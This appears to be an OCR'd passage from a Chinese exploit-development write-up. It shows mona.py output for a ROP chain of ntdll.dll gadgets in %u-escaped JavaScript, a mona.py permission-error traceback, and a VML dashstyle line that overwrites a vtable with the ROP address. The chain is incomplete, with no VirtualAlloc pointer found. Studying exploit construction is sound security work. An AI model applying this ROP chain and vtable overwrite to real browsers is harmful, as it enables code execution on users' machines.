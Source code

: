	"%u5922%u7766" + // 0x77665922 : ,# RETN (ROP NOP) [ntdll.dll] ** REBASED
	** ASLR

	"%u3e9e%u7770" + // 0x77703e9e : ,# POP ESI # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u2065%u7766" + // 0x77662065 : ,# JMP [EAX] [ntdll.dll]

	"%ua30c%u776f" + // 0x776fa30c : ,# POP EAX # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%u0000%u0000" + // 0x00000000 : ,# [-] Unable to find ptr to &VirtualAlloc()

	"%u1052%u7766" + // 0x77661052 : ,# PUSHAD # RETN [ntdll.dll] ** REBASED
	** ASLR

	"%ue871%u776b" + // 0x776be871 : ,# ptr to 'jmp esp' [ntdll.dll] ** REBASED
	** ASLR

	""); // :

	--------------------------------------------------------------------------------------------------

	ROP generator finished

	[+] Preparing output file 'stackpivot.txt'

	- (Re)setting logfile stackpivot.txt

	[+] Writing stackpivots to file stackpivot.txt

	Wrote 0 pivots to file

	[+] Preparing output file 'rop_suggestions.txt'

	- (Re)setting logfile rop_suggestions.txt

	[+] Writing suggestions to file rop_suggestions.txt

	********************************************************************************

	Traceback (most recent call last):

	File "mona.py", line 18592, in main

	commands[command].parseProc(opts)

	File "mona.py", line 11649, in procROP

	findROPGADGETS(modulecriteria,criteria,endings,maxoffset,depth,split,thedistance,fast,mode,sortedprint)

	File "mona.py", line 6571, in findROPGADGETS

	with open(thislog, "a") as fh:

	IOError: [Errno 13] Permission denied: 'rop_suggestions.txt'

	********************************************************************************

来看一看exp具体的ROP链

	vml1.dashstyle.array.item(6) = rop_addr; //覆盖到虚表
